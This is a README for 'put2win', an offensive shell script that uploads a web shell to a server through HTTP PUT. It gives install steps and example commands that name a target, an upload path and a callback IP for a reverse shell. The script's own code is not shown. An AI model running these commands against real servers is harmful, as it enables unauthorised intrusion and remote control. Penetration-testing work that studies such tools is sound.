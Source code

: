 # put2win
[![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat)](https://github.com/dwyl/esta/issues)

Script to automatize shell upload by PUT HTTP method to get shell.

[![asciicast](https://asciinema.org/a/204195.png)](https://asciinema.org/a/204195)


# Installation
```
git clone https://github.com/sysdevploit/put2win
cd put2win
chmod +x put2win.sh
```

# Usage
```
This script automatize shell upload by PUT HTTP method to get shell.

Options:
  -t TARGET        Target URL/IP (e.g. 192.168.1.10)
  -p PORT          Target PORT (e.g. 8080)
  -u URL PATH      Path to save the shell (e.g. /uploads)
  -l LOCAL IP      IP where the shell will connect (e.g. 192.168.1.5)
  -s SHELL NAME    Shell name (e.g. license.php)

Examples of use:
 - ./put2win.sh -t 192.168.1.80 -u /uploads -l 192.168.1.10 -s readme.php
 - ./put2win.sh -t 192.168.1.80 -p 443 -u /uploads -l 192.168.1.10
 ```
 
# Contact
Telegram: @devploit

Twitter: https://www.twitter.com/devploit
